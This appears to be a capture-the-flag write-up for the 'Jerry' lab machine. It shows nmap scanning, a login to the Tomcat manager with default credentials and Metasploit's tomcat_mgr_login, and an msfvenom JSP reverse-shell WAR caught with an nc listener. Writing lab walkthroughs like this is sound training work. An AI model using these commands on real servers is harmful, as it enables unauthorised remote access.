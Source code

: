 ```yaml
---
title: Jerry
date: 2025-04-06
tags: [easy, windows]
---
```



### Task1

Which TCP port is open on the remote host?

Run nmap to scan for ports

```nmap -sS -p- <target_ip>```

![alt text](image-j.png)

After scanning, the port 8080 is revelead to be open, where the http-proxy service is running.

### Task 2

Which web server is running on the remote host? Looking for two words.

To find the web server, we need to add the version field on the nmap scan.

```nmap -sV -p 8080 <target_ip>```

![alt text](image-j-1.png)

We see on the version that the web server is **Apache Tomcat**.

### Task 3

Which relative path on the webserver leads to the Web Application Manager?

Open a browser and navigate to the ip address of the target. Remember to specify the port to be 8080.

Take a look at the page, to see you can find anything useful. Under **Managing Tomcat** you see a URL to **manager webapp** which might be what is refered as Web Application Manager. It is stated that for security, access is restricted and users are defined in **$CATALINA_HOME/conf/tomcat-users.xml**. This seems like an interesting information, but let's first see what the URL gets us. When clicking we get redirected to **/manager/html** where we are asked to input our credential. This is a point we should keep in mind, but for now we got the relative path the question is asking for.

### Task 4

What is the valid username and password combination for authenticating into the Tomcat Web Application Manager? Give the answer in the format of username:password

On the previous step, we navigated to the **/manager/html** were we were asked for credentials. Since we were not able to authenticate, we show an example in the page of how to add a role to a user for accesssing the manager application. We can try to use those example credentials and see if they work on the login prompt, and they do!

![alt text](image-j-6.png)

Another approach to this, is using **Metasploit Framework**. First, run ```msfconsole``` and then ```search tomcat```. There you will find the auxiliary **auxiliary/scanner/http/tomcat_mgr_login** which will attempt to login based on a list of username - password names. To use it, run ```use <number_of_option>``` and then to see what you it is required for you to set ```show options```. 

To select the target IP address and the port, run ```set RHOSTS <target_ip>``` and ```set RPORT <target_port>```. Then type ```run``` and you will see that a login attempt was succesfull! As seen, those are the same credentials that were found before. 

![alt text](image-j-7.png)

<!--truncate--> 

### Task 5

Which file type can be uploaded and deployed on the server using the Tomcat Web Application Manager?

After authenticating in the previous page, you will see this part in the Web Application Manager page:

![alt text](image-j-3.png)

We can see that the file type is **WAR**. 

### Task 6

Submit the flag located on the user's desktop.

From the previous task, we realised we would be able to upload a war file, which smells like a backdoor we could use for remote code execution. A war file is used to deploy java based applications and we can use it to deploy a reverse shell and gain remote access to the target system. 

We can generate a war file using msfvenom 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f war > shell.war```

An open the port that was specified so we can listen to the connection from the target

```sudo nc -lvnp <your_port>```

Then we navigate to the manager page and upload the war payload. 
On the list of applications we can see our deployment 

![alt text](image-j-8.png)

Then we can navigate to the **/shell** path and on our temrminal that we opened the port we can see are connected!

![alt text](image-j-9.png)

Navigating to the directory **\Users\Administrator\Desktop** and lisitng the direcrtories, we find a folder named flags. 

![alt text](image-j-10.png)

Running ```type "2 for the price of 1.txt"``` we get both the user and the root flags.